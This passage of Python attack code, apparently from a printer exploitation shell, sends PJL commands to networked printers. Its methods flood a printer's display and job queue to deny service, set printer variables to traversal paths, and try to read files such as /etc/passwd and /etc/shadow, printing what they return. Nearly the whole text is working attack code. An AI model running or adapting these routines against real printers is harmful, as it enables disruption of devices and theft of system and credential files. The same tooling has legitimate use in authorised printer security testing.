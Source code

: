 ### DoS Attacks

```python
def do_dos_display(self, arg):
    """DoS via display message spam"""
    output().warning("Spamming display with messages...")
    for i in range(100):
        self.cmd(f"@PJL DISPLAY \"Message {i}\"", False)
    output().info("Display spam sent")

def do_dos_jobs(self, arg):
    """DoS via job flooding"""
    count = conv().int(arg) or 50
    output().warning(f"Flooding printer with {count} jobs...")
    for i in range(count):
        self.cmd(f"@PJL JOB NAME=\"Flood{i}\"", False)
        self.send(b"Test data\x0c")
        self.cmd("@PJL EOJ", False)
```

### Advanced Attacks

```python
def do_poison(self, arg):
    """Poison printer configuration"""
    output().warning("Poisoning printer configuration...")
    # Set malicious environment variables
    malicious_vars = {
        "INTRAY1": "/../../etc/passwd",
        "OUTBIN1": "/../../rw/var/sys/",
        "LPARM:PCL FONTSOURCE": "D",
        "LPARM:PCL FONTNUMBER": "999999"
    }
    
    for var, value in malicious_vars.items():
        self.cmd(f"@PJL SET {var}={value}")
    
    output().info("Configuration poisoned")

def do_traverse(self, arg):
    """Path traversal attack on file operations"""
    traversal_paths = [
        "../../../etc/passwd",
        "../../rw/var/sys/passwd",
        "0:/../../../etc/shadow",
        "/../../../../../../etc/passwd"
    ]
    
    output().info("Testing path traversal vectors...")
    for path in traversal_paths:
        output().info(f"Trying: {path}")
        result = self.get(path)
        if result != c.NONEXISTENT:
            size, data = result
            output().info(f"  ✓ SUCCESS: {path} ({size} bytes)")
            print(data.decode('utf-8', errors='ignore')[:200])
```

---